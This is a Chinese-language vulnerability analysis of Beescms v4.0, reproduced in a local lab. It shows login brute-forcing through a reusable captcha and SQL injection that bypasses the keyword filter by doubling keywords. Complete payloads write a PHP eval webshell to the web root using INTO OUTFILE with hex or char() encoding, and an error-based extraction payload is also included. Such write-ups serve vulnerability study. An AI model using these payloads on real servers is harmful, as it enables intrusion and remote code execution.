








# Beescms_v4.0 sql注入漏洞分析

## 一、漏洞描述

Beescms v4.0由于后台登录验证码设计缺陷以及代码防护缺陷导致存在bypass全局防护的SQL注入。

## 二、漏洞环境搭建

官方下载Beescms v4.0,下载地址: http://beescms.com/cxxz.html

解压压缩文件,然后把文件放到phpstudy的网站根目录

浏览器访问http://192.168.10.171/beescms/install,开始安装

　　

一直下一步,出现如下界面,输入数据库账户密码

　　

成功安装

　　

修改`mysql.ini` 文件，在`\[mysqld\] `下添加条目: `secure\_file\_priv =`,保存然后重启phpstudy,不然用mysql写入文件会报错。

　　

## 三、漏洞影响版本

Beescms v4.0

## 四、漏洞复现

浏览器访问后台页面http://192.168.10.171/beescms/admin/

　　

任意输入用户名和密码,看到提示“不存在该管理用户”,可以枚举用户名,然后根据枚举出来的用户名爆破密码

　　

　　

burpsuit枚举用户名,可以看到该验证码存在设计缺陷漏洞,一次验证后在不刷新的情况下可以多次提交请求,最终导致攻击者可以进行模糊测试(暴力枚举)。

　　

根据枚举出来的用户名,然后枚举密码,可以看到成功枚举密码

　　

在用户名处输入单引号,报错,说明存在sql注入漏洞

　　

　　

查看源码,发现使用`f1\_value`函数和`f1\_html`函数对输入的用户名和密码进行过滤

　　

跟进`f1\_value`函数,发现`f1\_value`函数对输入的关键字进行了过滤,可以看到,几乎常见的SQL关键字都被过滤掉了。

　　

跟进`f1\_html`函数,发现使用`htmlspecialchars`函数对输入的特殊符号进行`html`实体化转义,主要用于防御XSS漏洞

　　

百度搜索`htmlspecialchars`函数,发现`htmlspecialchars`函数默认情况下只对双引号进行编码,可以看到这个版本的cms使用默认对参数进行过滤处理,此处存在单引号引入的漏洞。

　　

继续浏览代码,发现登录验证函数`check\_login`

　　

跟进`check\_login`函数,发现`check\_login`函数在验证用户是先验证用户名,然后验证密码是否正确,该处验证逻辑存在漏洞。

　　

### 手工模糊测试

手工测试发现`union select`等关键字被过滤

　　

通过上面的分析源码,发现bypass的方法

```mysql
union => uni union on

select => selselectect
```

　　

猜解SQL查询语句中的字段数,根据如下图所示,判断出SQL查询语句中的字段数为5

　　

尝试通过`SQL`注入`getshell`

写入一句话到目标网站根目录下,`payload`如下:

```mysql
admin%27 un union ion selselectect 1,2,3,4,<?php @eval($\_POST\[cmd\]);?> into  outfile 'C:/phpStudy/WWW/beescms/shell.php'#
```

在burpsuit抓包,修改包并重放,提示如下错误,根据返回的数据包可以看到由于`htmlspecialchars`函数对输入的特殊符号进行html实体化转义,还有就是`into`、`outfile`关键字被过滤

　　

手工测试`bypass`关键字过滤防护

```mysql
outfile => outoutfilefile

into => in into
```

　　

通过上面的分析,发现php函数`htmlspecialchars()`对输入中含有的特殊符号进行html实体化转义,导致不能写shell到目标服务器上。可以通过利用mysql注入的一个特性就可以达到注入效果(即对shell部分进行Hex编码),或者用mysql函数char()就可以绕过这里的限制。

## 方法一、Hex编码

对shell部分进行编码

　　

写入shell的payload为:注意:记得在编码转换的时候前面加`0x`或者直接用`unhex`函数

`unhex(3c3f70687020406576616c28245f504f53545b636d645d293b3f3e)`,但是本次实验用`unhex`函数一直失败

```mysql
admin' uni union on selselectect null,null,null,null,0x3c3f70687020406576616c28245f504f53545b636d645d293b3f3e  in into  outoutfilefile 'C:/phpStudy/WWW/beescms/shell.php'#
```

burp修改数据包,成功写入shell

　　

菜刀连接

　　

## 方法二、使用char函数

mysql内置函数`char()`可以将里边的`ascii`码参数转换为字符串,使用`python`实现快速转换

　　

构造payload,payload为:

```mysql
admin' uni union on selselectect null,null,null,null,char(60, 63, 112, 104, 112, 32, 64, 101, 118, 97, 108, 40, 36, 95, 80, 79, 83, 84, 91, 99, 109, 100, 93, 41, 59, 63, 62)  in into  outoutfilefile 'C:/phpStudy/WWW/beescms/cmd.php'#
```

burp修改数据包,成功写入shell

　　

菜刀连接

　　

## 后记:

经过测试,发现`user`字段除了存在布尔注入,还存在报错注入

构造payload,payload如下:

```mysql
admin' a and nd extractvalue(1,concat(0x7e,(select user()),0x7e))#
```

　　

## 参考: 

https://www.cnblogs.com/yuzly/p/11423384.html

https://www.ohlinge.cn/php/beescms_sqli.html

https://www.ohlinge.cn/php/beescms_login_sql.html